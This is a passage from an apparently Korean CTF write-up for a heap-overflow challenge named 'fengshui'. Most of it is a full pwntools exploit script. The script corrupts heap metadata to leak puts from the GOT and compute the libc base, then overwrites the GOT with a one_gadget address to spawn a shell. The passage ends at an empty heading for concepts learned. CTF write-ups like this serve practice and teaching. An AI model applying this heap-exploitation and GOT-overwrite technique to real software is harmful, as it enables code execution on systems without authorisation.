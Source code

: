     참고로 heapoverflow를 일으킬때 chunk header 같은 것은 변조되지 않도록 적절히 맞춰줘야한다.



### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context(arch="amd64",os="linux",log_level="DEBUG")
    
    #p=remote("ctf.j0n9hyun.xyz",3028)
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p=process("./fengshui")
    e=ELF("./fengshui")
    libc=ELF("./libc.so.6")
    
    gdb.attach(p,'code\nb *0xBDB+$code\n')
    
    def add_(des_size,name,text_size,text):
    	p.sendlineafter("Choice: ","0")
    	p.sendlineafter("Size of description: ",str(des_size))
    	p.sendlineafter("Name: ",name)
    	p.sendlineafter("Text length: ",str(text_size))
    	p.sendlineafter("Text: ",text)
    
    def del_(index):
    	p.sendlineafter("Choice: ","1")
    	p.sendlineafter("Index: ",str(index))
    
    def show_(index):
            p.sendlineafter("Choice: ","2")
            p.sendlineafter("Index: ",str(index))
    
    def update_(index,text_size,text):
            p.sendlineafter("Choice: ","3")
            p.sendlineafter("Index: ",str(index))
            p.sendlineafter("Text length: ",str(text_size))
            p.sendlineafter("Text: ",text)
    
    
    add_(10,"AAAA",8,"AAAA")
    add_(10,"AAAA",8,"AAAA")
    add_(10,"AAAA",8,"AAAA")
    
    del_(0)
    
    payload='a'*0x80+p32(0x88)+p32(0x11)+'A'*8+p32(0)+p32(0x89)+p32(e.got['puts'])
    
    add_(128,"AAAA",len(payload),str(payload))
    
    show_(1)
    
    p.recvuntil("Description: ")
    
    puts_addr=u32(p.recv(4))
    libc_base=puts_addr-0x0005fca0
    one_gadget=libc_base+0x3ac5e
    
    log.info(hex(puts_addr))
    
    update_(1,4,p32(one_gadget))
    
    #del_(1)
    
    p.interactive()



### 4. 몰랐던 개념

---